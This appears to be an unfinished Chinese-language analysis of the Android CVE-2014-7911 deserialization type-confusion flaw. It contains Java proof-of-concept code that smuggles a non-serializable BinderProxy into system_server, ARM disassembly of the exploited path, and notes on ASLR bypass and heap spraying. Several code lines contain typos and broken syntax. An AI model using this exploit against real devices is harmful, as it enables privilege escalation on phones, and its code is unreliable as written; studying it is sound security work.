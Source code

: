 # CVE-2014-7911

java.io.ObjectInputStream没有检查要反序列化的对象是否真的可以序列化，因此可以构建一个不可序列化的java对象实例，恶意构建其成员变量，当该对象实例被ObjectInputStream反序列化时，将发生类型混淆，对象的Field被视为由本地代码处理的指针，构造恶意的对象可在sysem_server进程中执行任意代码并获取提升的权限。其涉及的知识非常广泛，包括Java序列化与反序列化、Dalvik GC机制、Android binder机制、heap spary、ROP、stack pivot。

```java

//构建可序列化恶意对象
Bundle bundle = new Bindle();
AAdroid.os.BinderProxy evilProxy = new AAdroid.os.BinderProxy();
bundle.putSerializable("eatthis", evilProxy);

//准备传入system_server的数据
Class stubClass = null;
for(Class inner : Class.forname("android.os.IUserManager").getDeclaredClasses()){
//获取android.os.IUserManager.Stub的class对象
		if(inner.getCanonicalName().equals("android.os.IUserManager.Stub")){
				stubClass = inner;
		}
}
Field TRANSACTION_setApplicationRestrictionsField = stubClass.getDeclaredField("TRANSACTION_setApplicationRestrictions")
TRANSACTION_setApplicationRestrictionsField.setAccessible(true);
TRANSACTION_setApplicationRestrictions = TRANSACTION_setApplicationRestrictionsField.getInt(null);
Class proxyClass = null;
for(Class inner : stubClass.getDeclaredClasses()){
	if(inner.getCanonicalName().equals("android.os.IUserManager.Stub.Proxy")){
			proxyClass = inner;	
	}
}
UserManager userManager = (UserManager)context.getSystemService(Context.USER_SERVICE);
Field mServiceField = UserManger.class.getDeclaredField("mService");
mServiceField.setAccessible(true);
Object mService = mServiceField.get(userManager);
//获得跨进程调用system_server的IBinder接口mRemote
Field mRemoteField = proxyClass.getDeclaredField("mRemote");
mRemote = (IBinder) mRemoteField.get(mService);
UserHandle userHandle = android.os.Process.myUserHandle();
setApplicationRestrictions(context.getPackageName(), bundle, userHandle.hashCode());

//向system_server传入不可序列化的Bundle参数
private void setApplicationRestrictions(java.lang.String packageName, android.os.Bundle restrictions, int userHandle) throws android.os.RemoteException {
	android.os.Parcel _data = android.os.Parcel.obtain();
	android.os.Parcel _reply = android.os.Parcel.obtain();
	try {
	   _data.writeInterfaceToken(DESCRIPTOR);
	   _data.writeString(packageName);
	   _data.writeInt(1);
	   restrictions.writeToParcel(_data, 0);
	   _data.writeInt(userHandle);
	   byte[] data = _data.marshall();// 序列化，获得一个byte[]数组
	   for (int i=0; true; i++) {
// 将这个数组中的”AAdr”修改成”andr”，要传输的对象的类型是AAdroid.os.BinderProxy，所以这里相当于把对象类型修改成了android.os.BinderProxy，这样就成功发送了恶意的对象
	       if (data[i] == 'A' && data[i+1] == 'A' && data[i+2] == 'd' && data[i+3] == 'r') {
	           data[i] = 'a';
	           data[i+1] = 'n';
	           break;
	       }
	   }
	   _data.recycle();
	   _data = Parcel.obtain();
	   _data.unmarshall(data, 0, data.length);
	   mRemote.transact(TRANSACTION_setApplicationRestrictions, _data, _reply, 0);
// Binder客户端的的mRemote其实是个BinderProxy类，使用transact方法描述符和参数传递给服务端进行远程调用
	   _reply.readException();
	}
	finally {
	   _reply.recycle();
	   _data.recycle();
	}
}
```

android.os.BinderProxy这个对象本身是不可序列化的，但是因为ObjectInputStream这个对象在反序列化时没有做校验，造成了类型混淆(type confusion)漏洞。BinderProxy的field被Native代码处理成指针，这个field就是我们在代码中设置的mOrgue。BinderProxy的finalize方法调用了Native代码，将mOruge处理成指针。

## Native分析：

假如BinderProxy可以被序列化，那么在反序列化时，其field引用的对象也会被反序列化；但在POC中ObjectInputStream反序列化的BinderProxy对象实例不可序列化，这样在ObjectInputStream反序列化BinderProxy对象时，发生了类型混淆（type confusion），其field被当做随后由Native代码处理的指针。这个field就是之前设置的0x1337beef，就是mOrgue这个变量。

反序列化的时候调用java.io.ObjectInputStream对象的readObject()方法，这个方法从输入流中读取出对象，也就是我们定义的BinderProxy对象。这个对象被创建后，因为代码中没有再引用它，所以它会进入到”可复活状态”，准备被GC回收，在回收前就会调用它的finalize()方法。

android.os.BinderProxy的finalize方法调用native代码，会将mOrgue处理为指针：

```java
@Override
protected void finalize() throws Throwable {
	try {
				destroy(); // android_os_BinderProxy_destroy
	} finally {
		super.finalize();	
	}
}
```

其中destroy函数的cpp代码:

```cpp
static void android_os_BinderProxy_destroy(JNIEnv* env, jobject obj)
{
	IBinder* b = (IBinder*)
		env->GetIntField(obj, gBinderProxyOffsets.mObject);
// 上面提到我们传入的mOrgue的值，即是drl->decStrong方法所在类DeathRecipientList的this指针。
	DeathRecipientList* drl = (DeathRecipientList*)
		env->GetIntField(obj, gBinderProxyOffsets.mOrgue); // mOrgue被处理成了一个对象指针
	LOGDEATH("Destroying BinderProxy %p: binder=%p drl=%p\n", obj, b, drl);
	env->SetIntField(obj, gBinderProxyOffsets.mObject, 0);
	env->SetIntField(obj, gBinderProxyOffsets.mOrgue, 0);
	drl->decStrong((void*)javaObjectForIBinder);
 // drl就是mOrgue，可以被攻击者控制。drl->decStrong方法调用使用的this指针可由攻击者控制。
	b->decStrong((void*)javaObjectForIBinder);
	IPCThreadState::self()->flushCommands();
}

//其中decStrong定义在DeathRecipientList的父类RefBase中
void RefBase::decStrong(const void* id) const
{
	weakref_impl* const refs = mRefs;
	refs->removeStrongRef(id); // 空实现
	const int32_t c = android_atomic_dec(&refs->mStrong);
	#if PRINT_REFS
	ALOGD("decStrong of %p from %p: cnt=%d\n", this, id, c);
	#endif
	ALOG_ASSERT(c >= 1, "decStrong() called on %p too many times", refs);
	if (c == 1) {
		refs->mBase->onLastStrongRef(id); // 导致代码执行，并最终指向可执行的内存区域
		if ((refs->mFlags&OBJECT_LIFETIME_MASK) == OBJECT_LIFETIME_STRONG) == 	OBJECT_LIFETIME_STRONG) {
			delete this;
		}
		refs->decWeak(id);
}
```

对Android::RefBase::decStrong进行逆向，IDA打开libutils.so：

mRefs是RefBase对象中第一个成员变量，RefBase是DeathRecipientList对象的父类，在C++中，对象的内存布局是先放置父类，然后放置自己的成员。而一个对象中方法是不占空间的，如果有虚函数会有一个虚函数表的地址(4字节)放置在对象的最开始，然后放置各个成员变量。这个类是有虚函数的，所以这里的mRefs变量的地址是DeathRecipientList对象也就是我们设置的mOrgue指针指向地址+4。

```bash
# drl(就是mOrgue，第一个可控的指针，在进入decStrong函数时的r0)必须指向可读的内存区域
ldr r4, [r0, #4]   # mRefs被加载到r4，r0是drl的this指针，mRefs是虚函数表之后的第一个私有变量，因此mRefs为r0+4所指向的内容
mov r6, r1
mov r0, r4         # r4指向mRefs，r0指向mStrong
blx <android_atomic_dec ()>    #android_atomic_dec函数被调用，传入参数&refs->mStrong

# 进入android_atomic_dec ()
# 为了调用refs->mBase->onLastStrongRef(id)，需要使refs->mStrong为1
cmp r0, #1          # r0 = refs->mStrong
bne.n d1ea
ldr r0, [r4, #8]    # r4 = &refs->mStrong
mov r1, r6
ldr r3, [r0, #0] 
ldr r2, [r3, #12]
blx r2   # 执行强引用计数减1，返回的是执行减1操作之前所指定的内存地址存放的值。
```

mStrong是refs（类weakref_impl）的第一个成员变量，由于weakref_impl没有虚函数，所以没有虚函数表，因此mStrong就是r4所指向的内容。另外，refs->removeStrongRef(id);这一行并没有出现在汇编代码中，因为这个函数为空实现，编译器进行了优化。

## 绕过ASLR：

Android上有地址空间随机化(ASLR)，但是因为所有app都是fork自zygote进程，所以基础模块和dalvik-heap的内存布局全都是相同的。可以分析自己的内存布局获得system-server的内存布局，然后使用基础模块构建ROP链就可以绕过ASLR。

## Dalvik-heap spary：

为了能让blx r2这条执行能够可靠稳定的跳转到攻击者可控的代码，需要利用堆喷射技术，在system_server内存空间的dalvik-heap中预先布置大量的Spray Buffer, 其中放置提权代码以及大量指向该提权代码的地址。

向sysetem_server的dalvik-heap空间传入可控字符串，system_server向android系统提供绝大多数的系统服务，通过这些服务的一些特定方法可以向system_server传入String，同时system_server把这些String存储在Dalvik-heap中，在GC之前都不会销毁。

（Some problems happened，To Be Continued…）